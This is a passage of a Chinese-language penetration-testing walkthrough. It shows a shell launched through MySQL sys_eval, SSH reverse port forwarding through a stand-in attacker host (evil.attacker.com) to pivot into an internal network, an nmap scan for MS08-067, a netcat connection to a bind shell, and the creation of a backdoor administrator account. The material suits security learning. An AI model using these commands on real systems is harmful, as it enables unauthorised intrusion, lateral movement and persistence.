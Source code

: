 ```
SELECT sys_eval('chmod 755 /tmp/bd');
SELECT sys_eval('/tmp/bd &');
```

注意，这个 Shell 是从数据库端口 3306 发出的。

与之前不同的是，这个 Shell 是 root 权限。

- 内网横向渗透

作者通过枚举内网存活主机，发现了一台`Windows 2003 R2`，地址为`10.150.0.20`。

这里作者首先`ping`了一下这个地址。其实通过`ttl`值可以大概判断目标操作系统，详细内容见附录六。

用数据库服务器做端口转发，使攻击机器与内网`.20`机器的 445 端口建立连接：

```
ssh -l root -t -t -R 445:10.150.0.20:445 evil.attacker.com
```

注意，上述命令中的`-t -t`表示本次操作独立占用一个`tty`（如果只有一个`-t`则代表独立占用一个伪终端）。关于端口转发，参考这篇[文章](https://www.ibm.com/developerworks/cn/linux/l-cn-sshforward/)。

此时，内网`.20`机器的 445 端口已经被映射到攻击者机器的 445 端口（这个过程我不太懂）。

接着对 445 端口做漏洞扫描：

```
nmap -sS 127.0.0.1 -p 445 --script smb-check-vulns.nse
```

发现目标机器存在`ms08-067`漏洞。

接下来就是漏洞利用：触发漏洞，然后在`.20`上 4444 端口绑定一个 Shell。

首先利用数据库服务器的 Shell 再做一个端口转发：

```
ssh -l root -t -t -R 4444:10.150.0.20:4444 evil.attacker.com
```

绑定 Shell 的 Shellcode 是以 Egghunter 方式编写的。关于这种方式的更多内容可以参考附录四。

关于`ms08-067`，参考附录五。

漏洞利用脚本太长，这里就不贴了，网上应该有很多。

```
./exploit.py 127.0.0.1
```

注意前边已经把 445 端口映射过了，所以这里打本地端口就可以。

```
nc -v 127.0.0.1 4444
```

成功获得 Shell。接着添加一个管理员用户：

```
net user hacker hacker /add
localgroup administrators hacker /add
```
